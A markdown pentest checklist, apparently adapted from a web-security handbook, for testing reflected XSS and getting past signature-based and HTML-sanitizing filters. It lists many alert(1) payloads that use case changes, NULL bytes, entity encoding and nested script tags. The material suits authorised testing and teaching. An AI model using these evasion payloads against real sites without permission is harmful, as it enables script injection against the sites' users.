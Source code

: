 # Reflected XSS

- [ ] Choose a unique arbitrary string that does not appear anywhere within the application and that contains only alphabetical characters. Submit this string as every parameter to every page, targeting only one parameter at a time (Note that both GET and POST requests need to be tested).
- [ ] Monitor the application’s responses for any appearance of this same string.
- [ ] Determine the reflection context. For each location within the response where the random value is reflected, determine its context. This might be in text between HTML tags, within a tag attribute which might be quoted, within a JavaScript string, etc.
- [ ] Submit the follwing payload `'';!--"<XSS>=&{()}` where reflection was detected. Check which characters gets encoded or truncated. If there is a filter in place, try to detect what signature it is using.
- [ ] Based on the context and the filtering in place, submit candidate payloads.
- [ ] Finally, if you succeed in finding a payload that appears to work within Burp, test the attack in a browser.

# Bypassing Signature-Based XSS Filters
- [ ] Starting with the opening tag name, the most simple and naive filters can be bypassed simply by varying the case of the characters used: `<iMg onerror=alert(1) src=a>`
- [ ] Going further, if you modify the example slightly, you can use arbitrary tag names to introduce event handlers, thereby bypassing filters that merely block specific named tags: `<x onclick=alert(1) scr=a>click here</x>`
- [ ] In addition, you can insert NULL bytes in any position. Note: The NULL byte trick works on Internet Explorer anywhere within the HTML page. Liberal use of NULL bytes often provides a quick way to bypass signature-based filters that are unaware of IE's behavior. `<[%00]img onerror=alert(1) src=a>`
- [ ] Several characters can replace the space between the tag names and the first attribute name:
```
<img/onerror=alert(1) src=a>
<img/anyjunk/onerror=alert(1) src=a>
<img """><script>alert("alert(1)")</script>">
```
Note: even where an attack does not require any tag attributes, you should always try adding some superfluous content after the tag name, because this bypasses some simple filters: `script/anyjunk>alert(1)</script>`
- [ ] Attributes can optionally be delimited with double or single quotes or, on IE, with backticks:
```
<img onerror="alert(1)"src=a>
<img onerror='alert(1)'src=a>
<img onerror=`alert(1)`src=a>
```
Switching around the attributes in the preceding example provides a further way to bypass some filters that check for attribute names starting with on. img src='a'onerror=alert(1)> By combining quote-delimited attributes with unexpected characters following the tag name, attacks can be devised that do not use any whitespace, thereby bypassing some simple filters: `<img/onerror="alert(1)"src=a>`
- [ ] Within the attribute name and value, you can use the same NULL byte trick described earlier.
```
<img onerror=a[%00]lert(1) src=a>
<i[%00]mg onerror=alert(1) src=a>
```
You can also HTML-encode characters within the value: `<img onerror=a&#x6c;ert(1) src=a>`
Because the browser HTML-decodes the attribute value before processing it further, you can use HTML encoding to obfuscate your use of script code, thereby evading many filters.
- [ ] It is also worth noting that browsers tolerate various deviations from the specifications, in ways that even filters that are aware of HTML encoding may overlook. You can use both decimal and hexadecimal format, add superfluous leading zeros, and omit the trailing semicolon.
```
<img onerror=a&#x06c;ert(1) src=a>
<img onerror=a&#x006c;ert(1) src=a>
<img onerror=a&#x0006c;ert(1) src=a>
<img onerror=a&#108;ert(1) src=a>
<img onerror=a&#0108;ert(1) src=a>
<img onerror=a&#108ert(1) src=a>
```

# Beating HTML Sanitizing Filters
- [ ] When you encounter this defense, your first step is to determine precisely which characters and expressions are being sanitized, and whether it is still possible to carry out an attack without directly employing these characters or expressions. For example, if your data is being inserted directly into an existing script, you may not need to employ any HTML tag characters.
- [ ] So, if <script> is being stripped from your input, you should try the following to check whether all instances are being removed: `<script><script>alert(1)</script>`
- [ ] In this situation you should also check whether the sanitization is being performed recursively: `<scr<script>ipt>alert(1)</script>`
